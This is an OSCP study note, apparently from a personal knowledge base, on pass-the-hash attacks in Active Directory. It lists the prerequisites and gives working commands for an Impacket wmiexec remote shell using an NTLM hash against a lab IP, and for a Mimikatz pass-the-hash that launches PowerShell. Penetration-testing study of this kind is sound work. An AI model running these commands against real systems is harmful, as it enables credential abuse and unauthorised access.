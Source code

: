 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/o-active-directory-movement/3-pass-the-hash/","updated":"2024-01-05T11:36:59.167+01:00"}
---
```


----------
### Theory:
- Requires:
	- User that authenticates **often** needs to be part of Administrator local group
	- SMB connection through firewall (commonly port 445)
	- Windows File and Printer Sharing enabled
	- ADMIN$ share available

---------
### Remote PtH Shell with Impacket:
In Kali:
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
--------------------
### PtH with Mimikatz:
```
sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell”
```

